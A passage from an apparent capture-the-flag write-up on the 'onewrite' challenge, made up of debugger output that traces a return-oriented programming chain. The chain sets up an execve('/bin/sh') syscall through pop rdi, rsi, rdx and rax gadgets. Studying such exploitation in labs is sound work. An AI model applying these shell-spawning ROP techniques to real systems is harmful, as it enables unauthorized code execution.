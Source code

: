 Lastly we can see that we popped `rbx` which will increment the stack pointer (stack grows down):
```
Breakpoint 3, 0x00007f3bdb37d6fb in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x8               
$rbx   : 0xdb5d522c6f2f9d53
$rcx   : 0x0               
$rdx   : 0x8               
$rsp   : 0x00007ffd5f926040  →  0x00007f3bdb3754fa  →   pop rdi
$rbp   : 0x00007f3bdb61afb0  →  0x00007f3bdb3759c3  →   sub rsp, 0x18
$rsi   : 0x00007ffd5f925f60  →  0x00007f3bdb37d6f3  →   add rsp, 0xd0
$rdi   : 0x0               
$rip   : 0x00007f3bdb37d6fb  →   ret
$r8    : 0x00007f3bdd24e880  →  0x00007f3bdd24e880  →  [loop detected]
$r9    : 0x0               
$r10   : 0x00007f3bdb3fb840  →   add BYTE PTR [rax], al
$r11   : 0x0000000000000246
$r12   : 0x00007f3bdb61e140  →  0x00007f3bdb6208c0  →  0x0000000000000000
$r13   : 0x1               
$r14   : 0x00007f3bdb6208c0  →  0x0000000000000000
$r15   : 0x1               
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────── stack ────
0x00007ffd5f926040│+0x0000: 0x00007f3bdb3754fa  →   pop rdi  ← $rsp
0x00007ffd5f926048│+0x0008: 0x00007f3bdb6203b0  →  0x0068732f6e69622f ("/bin/sh"?)
0x00007ffd5f926050│+0x0010: 0x00007f3bdb37a9f2  →   pop rsi
0x00007ffd5f926058│+0x0018: 0x0000000000000000
0x00007ffd5f926060│+0x0020: 0x00007f3bdb3b54c5  →   pop rdx
0x00007ffd5f926068│+0x0028: 0x0000000000000000
0x00007ffd5f926070│+0x0030: 0x00007f3bdb3b30ac  →   pop rax
0x00007ffd5f926078│+0x0038: 0x000000000000003b (";"?)
─────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7f3bdb37d6ee                  add    BYTE PTR [rcx+0x480975d0], cl
   0x7f3bdb37d6f4                  add    esp, 0xd0
   0x7f3bdb37d6fa                  pop    rbx
 → 0x7f3bdb37d6fb                  ret    
   ↳  0x7f3bdb3754fa                  pop    rdi
      0x7f3bdb3754fb                  ret    
      0x7f3bdb3754fc                  mov    rax, QWORD PTR [rip+0x2ab915]        # 0x7f3bdb620e18
      0x7f3bdb375503                  xor    esi, esi
      0x7f3bdb375505                  test   rax, rax
      0x7f3bdb375508                  jne    0x7f3bdb37547b
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "onewrite", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f3bdb37d6fb → ret
[#1] 0x7f3bdb3754fa → pop rdi
[#2] 0x7f3bdb6203b0 → (bad)
[#3] 0x7f3bdb37a9f2 → pop rsi
────────────────────────────────────────────────────────────────────────────────
gef➤  x/4g $rsp
0x7ffd5f926040: 0x7f3bdb3754fa  0x7f3bdb6203b0
0x7ffd5f926050: 0x7f3bdb37a9f2  0x0
gef➤  x/2i 0x7f3bdb3754fa
   0x7f3bdb3754fa:  pop    rdi
   0x7f3bdb3754fb:  ret    
```
